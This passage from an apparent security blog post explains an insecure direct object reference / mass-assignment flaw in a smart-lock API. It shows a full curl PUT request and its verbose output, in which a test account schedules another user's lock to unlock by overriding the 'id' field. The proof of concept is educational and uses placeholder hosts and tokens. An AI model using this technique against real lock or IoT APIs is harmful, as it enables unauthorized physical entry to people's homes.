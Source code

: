 In OWASP terms, this falls under #4 of the Top 10: Insecure Direct Object References, by virtue of a _Mass Assignment_ vulnerability.

Creating a test account, you PUT a schedule on your test lock’s URI, using your home lock’s Id (which you accidentally committed early on in some test code, but later removed) in the JSON:

    $ curl -X PUT -H "Authorization: Token WW91IGRpZG4ndCB0aGluayBJJ2QgYWN0dWFsbHkgcHV0IGEgcmVhbCB2YWx1ZSBoZXJlLCBkaWQgeW91Pw==" -d '{ "state": "unlocked", "id": "e5ea783d-b32a-4716-8001-89d7e035c2df", "scheduledate": "2017-08-12T08:00:00Z", "recurrence": "Never" }' https://api.example.com/v1/lock/4ee62a78-0970-4a2f-bd68-0a678944bb6a/schedules -v
    *   Trying api.example.com...
    * TCP_NODELAY set
    * Connected to api.example.com (0.0.0.0) port 443 (#0)
    * ALPN, offering http/1.1
    * Cipher selection: ALL:!EXPORT:!EXPORT40:!EXPORT56:!aNULL:!LOW:!RC4:@STRENGTH
    * successfully set certificate verify locations:
    *   CAfile: /opt/local/share/curl/curl-ca-bundle.crt
    CApath: none
    * TLSv1.2 (OUT), TLS header, Certificate Status (22):
    * TLSv1.2 (OUT), TLS handshake, Client hello (1):
    * TLSv1.2 (IN), TLS handshake, Server hello (2):
    * TLSv1.2 (IN), TLS handshake, Certificate (11):
    * TLSv1.2 (IN), TLS handshake, Server key exchange (12):
    * TLSv1.2 (IN), TLS handshake, Server finished (14):
    * TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
    * TLSv1.2 (OUT), TLS change cipher, Client hello (1):
    * TLSv1.2 (OUT), TLS handshake, Finished (20):
    * TLSv1.2 (IN), TLS change cipher, Client hello (1):
    * TLSv1.2 (IN), TLS handshake, Finished (20):
    * SSL connection using TLSv1.2 / ECDHE-ECDSA-AES128-GCM-SHA256
    * ALPN, server accepted to use http/1.1
    * Server certificate:
    *  subject: C=US; ST=Somewhere; L=Somewhere View; O=Example Inc; CN=*.example.com
    *  start date: Aug  2 19:27:21 2017 GMT
    *  expire date: Oct 25 19:23:00 2017 GMT
    *  subjectAltName: host "example.com" matched cert's "example.com"
    *  issuer: C=US; O=Example Inc; CN=Example Internet Authority G2
    *  SSL certificate verify ok.
    > PUT /v1/lock/4ee62a78-0970-4a2f-bd68-0a678944bb6a/schedules HTTP/1.1
    > Host: api.example.com
    > User-Agent: curl/7.53.1
    > Accept: */*
    > Content-Length: 132
    > Content-Type: application/json
    >
    * upload completely sent off: 132 out of 132 bytes
    < HTTP/1.1 200 OK
    < Connection: close
    < Content-type: application/json
    <
    * Closing connection 0
    {"state":"unlocked","id":"e5ea783d-b32a-4716-8001-89d7e035c2df", "scheduledate":"2017-08-12T08:00:00Z","recurrence":"Never","message":null,"opensound":null}

Talk about mixed emotions.

---

In Part II, I will discuss the mindset from the perspective of side-channel attacks. 
